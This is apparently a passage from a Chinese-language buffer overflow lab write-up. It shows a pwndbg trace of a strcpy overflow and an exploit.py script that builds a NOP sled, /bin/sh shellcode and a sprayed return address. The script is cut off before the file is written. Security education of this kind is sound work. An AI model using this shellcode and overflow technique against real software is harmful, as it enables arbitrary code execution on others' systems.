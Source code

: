 ```shell
   16 {
   17     char buffer[BUF_SIZE];
   18 
   19     // The following statement has a buffer overflow problem 
 ► 20     strcpy(buffer, str);       
   21 
   22     return 1;
   23 }
   24 
   25 int main(int argc, char **argv)
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ esp 0xffffc7f0 ◂— 0x205
01:0004│     0xffffc7f4 ◂— 0x0
02:0008│     0xffffc7f8 —▸ 0xffffc884 ◂— 0x0
03:000c│     0xffffc7fc ◂— 0x0
04:0010│     0xffffc800 —▸ 0xf7db68a0 (step0_jumps) ◂— 0x0
05:0014│     0xffffc804 ◂— 0xffffffff
06:0018│     0xffffc808 —▸ 0xf7c1aac9 ◂— 'ld-linux.so.2'
07:001c│     0xffffc80c —▸ 0xf7ffd608 (_rtld_global+1512) —▸ 0xf7fc6000 ◂— 0x464c457f
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► 0 0x56556221 bof+20
   1 0x56556348 dummy_function+58
   2 0x565562e0 main+158
   3 0xf7c21519 __libc_start_call_main+121
   4 0xf7c215f3 __libc_start_main+147
   5 0x5655610b _start+43
────────────────────────────────────────────────────────────────────────────────
pwndbg> p $ebp
$1 = (void *) 0xffffc898
```

利用此信息进行喷射攻击。构造python脚本如下

`exploit.py`：将payload前208项全部覆盖为ret地址，ret地址需要大于等于$ebp+232。

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)            # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc898 + 232        # Change this number 
offset = 207              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[0:offset + L] = (ret).to_bytes(L,byteorder='little')*52 
##################################################################

# Write the content to a file
```
